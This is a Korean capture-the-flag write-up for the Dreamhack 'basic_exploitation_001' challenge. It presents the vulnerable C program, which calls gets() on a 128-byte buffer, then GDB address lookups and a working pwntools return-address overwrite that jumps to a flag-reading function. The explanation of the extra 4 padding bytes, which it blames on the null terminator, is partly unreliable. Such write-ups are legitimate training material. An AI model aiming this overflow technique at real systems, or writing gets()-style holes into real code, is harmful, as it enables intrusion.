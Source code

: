 ```yaml
---
layout: single
title:  "Wargame : basic_exploitation_001"
categories: 정보보안
tag: [python, pwn, hacking]
toc: true
author_profile: true
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


## C 코드 분석


```c

#include <stdio.h>

#include <stdlib.h>

#include <signal.h>

#include <unistd.h>





void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}





void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);



    signal(SIGALRM, alarm_handler);

    alarm(30);

}





void read_flag() {

    system("cat /flag");

}



int main(int argc, char *argv[]) {



    char buf[0x80];



    initialize();

    

    gets(buf);



    return 0;

}

```


### main() 함수 분석


배열을 크기 0x80(128 byte)만큼 할당한다.



initialize() 함수는 입/출력 버퍼를 비활성화시키고, 프로그램의 실행시간을 30초로 제한하는 함수이다.



gets(buf) 부분에서 익스플로잇이 가능하다.



입력값의 크기를 제한하지 않았기 때문에 해당 부분에 취약점이 있는 것을 알 수 있다.



익스플로잇 방법은 gets()부분 입력값으로 128 byte + 4 byte = 132 byte를 아무 의미없는 문자열 입력 후, read_flag() 함수의 주소를 입력하여 read_flag()가 return 되도록 코드를 작성한다.



추가로 4 byte를 입력해 주는 이유는, gets()함수 특성 상 문자열을 입력받은 후 널 종료 문자로 끝나도록 하기 때문에 1 byte가 추가로 할당된다.



추가로 할당된 1 byte는 스택 메모리에 추가적으로 저장될 때 4 byte(1 word)씩 저장되기 때문에 4 byte를 추가로 할당해야 한다.


## GDB 디버깅


가장 먼저 read_flag의 주소를 살펴본다.



GDB 디버깅을 들어가서 info fuc으로 함수의 주소를 추적한다.



밑에서 보는바와 같이 read_flag의 주소는 '0x080485b9' 이다.


![image.png](/image/fead_flag 함수 주소.png)


다음으로는, 위에서 설명하였던 4 byte가 추가되는 것을 이해하기 쉽도록 디버깅 모드로 들어가서 확인해 본다.


![image.png](/image/4 byte 추가.png)


보다시피, [ebp - 0x80] 에서 할당된 0x80 뿐만 아니라 밑에 add exp, 4 에서 4 byte가 추가로 할당된 것을 볼 수 있다.


## Pwn 코드


```python

from pwn import *



p = remote("host3.dreamhack.games", 11188)



payload = b'A' * 0x80

payload += b'A' * 4

payload += p32(0x080485b9)

# read_flag의 주소를 패킹하여 payload에 더한다.



p.sendline(payload)

p.interactive()

```

![image.png](/image/basic_ex_shellcode.png)
